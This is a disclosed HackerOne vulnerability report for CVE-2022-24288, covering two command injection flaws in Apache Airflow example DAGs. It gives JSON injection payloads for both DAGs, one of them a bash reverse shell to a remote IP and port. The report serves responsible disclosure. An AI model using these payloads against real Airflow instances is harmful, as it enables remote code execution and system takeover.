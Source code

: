 # CVE-2022-24288: Apache Airflow: TWO RCEs in example DAGs

## Report Details
- **Report ID**: 1492896
- **URL**: https://hackerone.com/reports/1492896
- **State**: Closed
- **Severity**: high
- **Submitted**: 2022-02-27T04:49:04.373Z
- **Disclosed**: 2022-04-01T14:40:51.151Z

## Reporter
- **Username**: x_h1
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: ibb

## Vulnerability Information
In Apache Airflow, prior to version 2.2.4, In DAG script of airflow , there is two command injection vulnerability (RCE) in the some scripts, which an attacker can execute arbitrary commands on the system.  The impact is even greater when airflow is configured for unauthenticated access. These two RCEs are assigned the same CVE number(CVE-2022-24288)

## Impact

#RCE one: example_passing_params_via_test_command.py command injection

##Vulnerability summary:
In Apache Airflow, prior to version 2.2.4, there is a command injection vulnerability (RCE) in the script (example_passing_params_via_test_command.py), which can obtain the permission of the operating system. 
##Vulnerability principle:
1. It can be seen from the source code of example_passing_params_via_test_command script that there is the function of executing bash command, The parameters Foo and MIFF in the template expressions {{params. Foo}} and {{params. Foo}} are externally controllable and rendered through the jiaja2 template: 

{F1634883}

{F1634884}
2. Further analysis “from airflow.operators.bash import BashOperator” code, we can see bash_command parameter value will be executed as a bash script;

{F1634885}

##Vulnerability exploitation ：
1. Enter the DAGs menu and start example_passing_params_via_test_command task, select “Trigger DAG w/ config”. 

http://192.168.3.17:8080/trigger?dag_id=example_passing_params_via_test_command

{F1634887}
2. To construct payload, we can know from the following code that we need to splice commands with semicolons after closing double quotation marks, so as to inject any operating system commands to be executed(RCE).

{F1634888}
PAYLOAD：`{"foo":"\";touch /tmp/pwnedaaaaa;\""}`, Then click trigger to execute the task.

{F1634889}

{F1634890}
Through the log and background view, it can be seen that any command has been executed successfully.

{F1634891}

{F1634892}
3.  Further execute the reverse shell to obtain operating system permissions.
Payload:` {"foo":"\";bash -i >& /dev/tcp/192.168.3.7/6666 0>&1;\""}`

{F1634893}

{F1634894}

#RCE two: tutorial.py DAG command injection

##Vulnerability summary：
Ithere is a command injection vulnerability (RCE) in the script (tutorial.py), which an attacker can execute arbitrary commands on the system. 
##Vulnerability principle：
1. It can be seen from the source code of tutorial script that there is the function of executing bash command, The parameters “my_param” in the template expressions {{params.my_param}} is externally controllable and rendered through the jinja2 template: 

{F1634906}
2. Further analysis “from airflow.operators.bash import BashOperator” code, we can see bash_command parameter value will be executed as a bash script;

{F1634907}
#Vulnerability exploitation:
1. Enter the DAGs menu and start tutorial task, select “Trigger DAG w/ config”. 

http://192.168.3.17:8080/trigger?dag_id=tutorial

{F1634908}
2. To construct payload, we can know from the following code that we need to splice commands with semicolons after closing double quotation marks, so as to inject any operating system commands to be executed(RCE).

{F1634913}
PAYLOAD：`{"my_param":"\";touch /tmp/pwnedddddd;\""}`, Then click trigger to execute the task.

{F1634915}

{F1634916}
Through the log and background view, it can be seen that arbitrary command has been executed successfully.

{F1634917}

## Attachments
- RCE-one-1.png
- RCE-one-2.png
- RCE-one-3.png
- RCE-one-4.png
- RCE-one-5.png
- RCE-one-6.png
- RCE-one-7.png
- RCE-one-8.png
- RCE-one-9.png
- RCE-one-10.png
- RCE-one-11.png
- RCE-two-1.png
- RCE-two-2.png
- RCE-two-3.png
- RCE-two-4.png
- RCE-two-5.png
- RCE-two-6.png
- RCE-two-7.png

